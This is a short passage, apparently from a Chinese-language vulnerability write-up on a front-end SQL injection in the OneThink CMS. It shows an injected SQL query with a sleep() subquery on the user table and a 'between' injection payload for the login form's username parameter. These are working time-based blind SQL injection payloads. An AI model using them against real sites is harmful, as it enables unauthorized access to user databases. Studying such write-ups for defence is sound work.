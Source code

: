     SELECT * FROM `onethink_ucenter_member` WHERE (  (`username` 
        > (select 1 from (select sleep(3))x))  )

**payload3-between注入**

    username[0]=BETWEEN 1 and ( select 1 from (select sleep(2))x)))--+-&username[1]=&password=2&verify=0x401

![10.png](resource/OneThink前台注入/media/rId34.png)

